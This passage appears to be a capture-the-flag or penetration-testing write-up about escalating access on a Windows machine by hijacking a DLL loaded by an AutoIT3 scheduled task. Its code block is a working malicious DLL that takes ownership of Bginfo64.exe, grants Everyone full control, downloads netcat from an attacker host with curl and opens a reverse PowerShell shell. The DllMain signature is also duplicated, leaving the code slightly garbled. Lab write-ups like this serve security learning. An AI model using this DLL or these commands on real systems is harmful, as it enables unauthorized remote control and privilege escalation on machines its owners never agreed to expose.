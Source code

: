 ### Processes

Get-Process list shows a number of processes running. One of the processes that shows AutoIT3.exe

![](<../../.gitbook/assets/image (13).png>)

[https://www.autoitscript.com/site/](https://www.autoitscript.com/site/) Advises that is designed for automating windows tasks.

Given that this .exe lives in the Share, followed by the contents of the scripts folder that contains .au3 file types - which are associated to AutoIT3.exe



### Foothold 2

The second Foothold comes from DLL Hijack of the AutoIT3 Scheduledtask.

[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

1. Takeownership of Bginfo64.exe&#x20;
2. Curl netcat.exe to replace BgInfo64.exe
3. Run netcat.exe and open a reverse powershell shell.

```
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
# include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
      system("takeown /f C:\\share\\Bginfo64.exe");
      system("icacls C:\\share\\Bginfo64.exe /grant Everyone:F /T");
      system("curl 10.10.16.5:8080/nc.exe -o c:\\share\\Bginfo64.exe");
      system("C:\\share\\Bginfo64.exe 10.10.164.65 1234 -e Powershell.exe");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

